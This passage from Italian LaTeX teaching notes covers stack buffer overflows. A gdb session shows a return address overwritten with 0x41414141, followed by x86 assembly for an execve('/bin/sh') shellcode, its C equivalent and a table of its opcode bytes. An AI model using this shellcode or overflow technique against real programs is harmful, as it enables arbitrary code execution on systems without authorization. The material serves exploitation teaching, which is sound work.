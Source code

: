 \begin{ex}
    arrivati all'indirizzo di ritorno avremo l'errore di segfault sfruttabile a nostro vantaggio
    \begin{lstlisting}[language=bash]
        command:
        gdb -q ./test

        output:
        Reading symbols from ./test ...(no debugging symbols found)
        (gdb) r
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y
        Starting program: /home/vagrant/test
        AAAAAAAAAAAAAAAAAAAA
        Program received signal SIGSEGV , Segmentation fault.
        0x41414141 in ?? ()
    \end{lstlisting}
        potremo così sfruttare il deragliamento del programma per eseguire del codice arbitrario come uno \textbf{shellcode}.
\end{ex}

\subsection{Shellcode}
Uno shellcode è una porzione di codice in linguaggio assembly, che generalmente esegue una shell, inittabile attraverso un exploit che ci permette di acquisire l'accesso alla macchina attaccata, o più generalmente che permette l'esecuzione di codice arbitrario.

\begin{lstlisting}[language={[x86masm]Assembler}]
    xor eax,eax;
    cdq;
    push eax;               push 0
    push 0x68732f2f;
    push 0x6e69622f;
    mov ebx,esp;
    push eax;
    push ebx;               push "/bin/sh\0"
    mov ecx,esp;            push &"/bin/sh\0"
    mov al,0x0b;            systemcall(execve)
    int 80h;                systemcall(execve, "/bin/sh", &["/bin/sh", NULL])
\end{lstlisting}
il precedente shell code è la versione compilata del codice che segue:
\begin{lstlisting}[language=C]
    char *cmd[] = {"/bin/sh", NULL };
    execve (*cmd , cmd);
\end{lstlisting}
se invece proviamo ad estrarre l'opcode dal codice assembly otterremo i seguenti valori:
\begin{center}
    \begin{table}[h!]
        \centering
        \begin{tabular}{c c c c}
            0x31 & 0xc0 & 0x99 & 0x50 \\
            0x68 & 0x2f & 0x2f & 0x73 \\
            0x68 & 0x68 & 0x2f & 0x62 \\
            0x69 & 0x6e & 0x89 & 0xe3 \\
            0x50 & 0x53 & 0x89 & 0xe1 \\
            0xb0 & 0x0b & 0xcd & 0x80 \\
        \end{tabular}
    \end{table}
\end{center}

